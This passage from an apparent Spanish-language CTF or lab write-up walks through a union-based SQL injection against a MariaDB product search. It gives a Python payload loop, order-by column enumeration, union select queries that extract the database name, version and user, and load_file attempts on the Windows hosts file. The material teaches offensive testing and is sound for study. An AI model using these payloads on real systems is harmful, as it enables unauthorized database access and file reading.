 ```python
    while True:
        injection = input("[+] Payload: ")
        if injection != "exit":
            makeRequest(injection)
        else:
            print("\n[!] Saliendo...\n")
            sys.exit(0)

```

si lanzamos el script con `rlwrap python3 sqli_injection.py` y a la entrada payload le ponemos el apostrofe, podemos ver el error. Ya podemos enumerar
la base de datos.

1. Miramos cuantas columnas hay

    ```bash
    [+] Payload : ' order by 100-- -
    [+] Payload : ' order by 10-- -
    [+] Payload : ' order by 8-- -
    [+] Payload : ' order by 7-- -
    [+] Payload : ' order by 6-- -
    ```

    Al `' order by 6-- -` nos sale No product Found, ya sabemos que hay 6 columnas

1. Aplicamos el union select

    ```bash
    [+] Payload : ' union select 1,2,3,4,5,6-- -
    ```

    Vemos que se estan colandos la etiquetas

1. Listamos la base de datos actual en uso y el usuario

    ```bash
    [+] Payload : ' union select 1,2,database(),4,5,6-- -
    [+] Payload : ' union select 1,2,version(),4,5,6-- -
    [+] Payload : ' union select 1,2,user(),4,5,6-- -
    ```

    La base de datos se llama warehouse de typo MariaDB version 10.4.8 y el usuario manager@localhost

1. Miramos si podemos leer archivos de la maquina victima

    ```bash
    [+] Payload : ' union select 1,2,load_file("C:\Windows\System32\drivers\etc\hosts"),4,5,6-- -
    [+] Payload : ' union select 1,2,load_file("Windows\System32\drivers\etc\hosts"),4,5,6-- -
    [+] Payload : ' union select 1,2,load_file("0x433a5c57696e646f77735c53797374656d33325c647269766572731b74635c686f737473"),4,5,6-- -
    ```

    Parece que no podemos leer ficheros del systema.

    > [ ! ] NOTAS: el hexadecimal se hace con el comando `echo "C:\Windows\System32\drivers\etc\hosts" | tr -d '\n' | xxd -ps | xargs | tr -d ' '`
